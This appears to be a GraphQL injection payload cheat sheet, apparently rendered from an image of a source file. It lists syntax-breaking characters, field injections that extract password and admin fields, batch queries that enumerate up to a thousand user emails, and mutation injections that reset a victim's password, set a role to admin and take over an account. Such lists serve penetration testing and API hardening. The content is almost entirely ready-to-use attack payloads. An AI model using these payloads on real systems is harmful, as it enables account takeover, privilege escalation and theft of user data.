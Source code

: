 ### Basic Syntax Test Payloads
```graphql
# 1. Single quote
'

# 2. Double quote
"

# 3. Closing parenthesis
)

# 4. Closing brace
}

# 5. Hash/comment
#

# 6. Newline
\n
```

### Field Injection Payloads
```graphql
# Add password field
) { password }

# Add multiple fields
) { password admin accessLevel }

# Add nested fields
) { password user { admin } }
```

### Batch Query Payloads
```graphql
# Simple batch
) { email } q2:user(id:1) { email

# With alias
) { email } admin:user(id:1) { password

# Mass enumeration
) { } u1:user(id:1){email} u2:user(id:2){email} ... u1000:user(id:1000){email}
```

### Mutation Injection Payloads
```graphql
# Update password
") { success } } mutation { updatePassword(id:1, password:"hacked

# Change role
") { success } } mutation { updateRole(id:1, role:"admin

# Account takeover
") { } } mutation { resetPassword(email:"victim@example.com", newPassword:"hacked
```
